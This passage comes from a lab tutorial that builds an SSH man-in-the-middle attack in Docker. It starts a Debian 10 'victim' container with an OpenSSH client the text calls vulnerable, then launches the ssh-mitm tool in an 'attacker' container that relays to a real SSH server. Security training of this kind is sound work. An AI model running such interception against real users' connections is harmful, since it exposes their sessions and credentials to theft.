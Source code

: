 3. **Start the Victim Container**

   We use a Debian 10 (Buster) image, as its OpenSSH client (`OpenSSH_7.9p1`) is vulnerable.

   Bash

   ```
   docker run -it --name victim --network ssh-mitm-net debian:10
   ```

   - **Explanation**:
     - `-it`: Start in interactive mode and attach a shell.
     - `--name victim`: Name the container `victim`.
     - `debian:10`: Use the Debian 10 image.

   Once inside the container, install the `openssh-client`.

   Bash

   ```
   # Execute inside the victim container
   apt-get update && apt-get install -y openssh-client
   ```

------



#### **Step 2: Launch the Man-in-the-Middle Attack**



1. **Install and Run `ssh-mitm`**

   Open a new terminal on the attacker machine and run `ssh-mitm` using Docker.

   Bash

   ```
   docker run -it --rm --name attacker --network ssh-mitm-net -p 10022:10022 sshmitm/ssh-mitm:latest server --remote-host ssh-server
   ```

   - **Explanation**:
     - `--rm`: Automatically remove the container when it exits.
     - `--name attacker`: Name the container `attacker`.
     - `-p 10022:10022`: Map port 10022 on the host to the `ssh-mitm` service port.
     - `sshmitm/ssh-mitm:latest`: Use the official `ssh-mitm` Docker image.
     - `server --remote-host ssh-server`: This is the `ssh-mitm` command. `server` starts the MitM server, and `--remote-host ssh-server` specifies the address of the real SSH server (in our case, the `ssh-server` container).

   When `ssh-mitm` starts successfully, you will see log messages similar to the following, indicating it is listening on port 10022.

   ```
   INFO     Starting SSH-MITM server on 0.0.0.0:10022
   ```

------

